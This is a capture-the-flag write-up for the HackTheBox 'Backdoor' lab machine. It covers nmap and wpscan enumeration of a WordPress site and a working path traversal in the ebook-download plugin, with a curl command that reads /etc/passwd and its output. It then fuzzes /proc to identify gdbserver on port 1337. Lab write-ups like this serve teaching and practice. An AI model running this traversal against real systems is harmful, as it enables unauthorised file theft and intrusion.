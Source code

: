 ### BackDoor HackTheBox

### Difficulty = Easy

### IP Address = 10.10.11.125

Nmap Scan:

```
└─$ nmap -sCV 10.10.11.125 -p22,80,1337 -oN nmapscan -Pn
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-24 18:41 WAT
Nmap scan report for 10.10.11.125
Host is up (0.31s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b4:de:43:38:46:57:db:4c:21:3b:69:f3:db:3c:62:88 (RSA)
|   256 aa:c9:fc:21:0f:3e:f4:ec:6b:35:70:26:22:53:ef:66 (ECDSA)
|_  256 d2:8b:e4:ec:07:61:aa:ca:f8:ec:1c:f8:8c:c1:f6:e1 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Backdoor &#8211; Real-Life
|_http-generator: WordPress 5.8.1
|_http-server-header: Apache/2.4.41 (Ubuntu)
1337/tcp open  waste?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.99 seconds
```

From the scan only 3 ports are open and nmap couldn't identify the service running on port 1337

#### Web Server Enumeration

Heading over to the web server on port 80 show this 
![image](https://user-images.githubusercontent.com/113513376/221250546-cfc25100-4339-4f57-91c1-a860075e26ae.png)

Its an instance of wordpress and we can confirm by checking wappalyzer or source code
![image](https://user-images.githubusercontent.com/113513376/221250778-0805b402-d9cd-4e84-ac78-801e2020b514.png)

I'll run wpscan on it to enumerate the wordpress cms

```└─$ wpscan --url http://10.10.11.125/ -e u
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.22
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://10.10.11.125/ [10.10.11.125]
[+] Started: Fri Feb 24 18:45:10 2023

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.41 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://10.10.11.125/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://10.10.11.125/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://10.10.11.125/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://10.10.11.125/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.8.1 identified (Insecure, released on 2021-09-09).
 | Found By: Rss Generator (Passive Detection)
 |  - http://10.10.11.125/index.php/feed/, <generator>https://wordpress.org/?v=5.8.1</generator>
 |  - http://10.10.11.125/index.php/comments/feed/, <generator>https://wordpress.org/?v=5.8.1</generator>

[+] WordPress theme in use: twentyseventeen
 | Location: http://10.10.11.125/wp-content/themes/twentyseventeen/
 | Last Updated: 2022-11-02T00:00:00.000Z
 | Readme: http://10.10.11.125/wp-content/themes/twentyseventeen/readme.txt
 | [!] The version is out of date, the latest version is 3.1
 | Style URL: http://10.10.11.125/wp-content/themes/twentyseventeen/style.css?ver=20201208
 | Style Name: Twenty Seventeen
 | Style URI: https://wordpress.org/themes/twentyseventeen/
 | Description: Twenty Seventeen brings your site to life with header video and immersive featured images. With a fo...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 2.8 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://10.10.11.125/wp-content/themes/twentyseventeen/style.css?ver=20201208, Match: 'Version: 2.8'

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:01 <==========================> (10 / 10) 100.00% Time: 00:00:01

[i] User(s) Identified:

[+] admin
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://10.10.11.125/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Fri Feb 24 18:45:24 2023
[+] Requests Done: 23
[+] Cached Requests: 36
[+] Data Sent: 6.197 KB
[+] Data Received: 78.631 KB
[+] Memory used: 167.711 MB
[+] Elapsed time: 00:00:14
```

It shows that the only user is `admin` and its version its `5.8.1` which doesn't have an form of vulnerability for an unauthenticated user

I don't want to start password brute force for user admin so firstly i'll run wpscan again but this time enumerate the plugins present

```
Command: wpscan --url http://10.10.11.125/ --plugins-detection aggressive -t100
```

But since `/wp-content/plugins/` has directory listing i'll get the list of plugins there

And it shows only ebook plugin 
![image](https://user-images.githubusercontent.com/113513376/221263510-b9d576a4-e3a0-469f-adb1-37c6a1a71d16.png)

Reading the `readme.txt` file shows it version which is ebook 1.1
![image](https://user-images.githubusercontent.com/113513376/221264671-6166d2bc-acd9-421e-8d1a-fe3226dd0af9.png)

Searching for exploit leads to a directory transversal vulnerability [Exploit](https://www.exploit-db.com/exploits/39575)

#### Exploit

Trying it to read local files works

```
└─$ curl -s 'http://10.10.11.125/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../etc/passwd'           
../../../../../../etc/passwd../../../../../../etc/passwd../../../../../../etc/passwdroot:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
user:x:1000:1000:user:/home/user:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:113:118:MySQL Server,,,:/nonexistent:/bin/false
<script>window.close()</script> 
```

I tried reading files like sshkey but it doesn't work

Now if you remember there's a service running on port 1337

I will fuzz for process in /proc/FUZZ/cmdline

I made a quick script which is dirty but will do the work smh [Fuzz](https://github.com/markuched13/markuched13.github.io/blob/main/solvescript/htb/b2b/backdoor/fuzz.py)

After running the script eventually it runs finish 

On checking the process.txt file shows lot of thing and some are real process some are not

I edited it to form [this](https://github.com/markuched13/markuched13.github.io/blob/main/solvescript/htb/b2b/backdoor/process.txt)

Looking at it you will see 

```
/bin/sh -c while true;do su user -c "cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;"; done
```

Now with this we know that its gdbserver thats running on port 1337
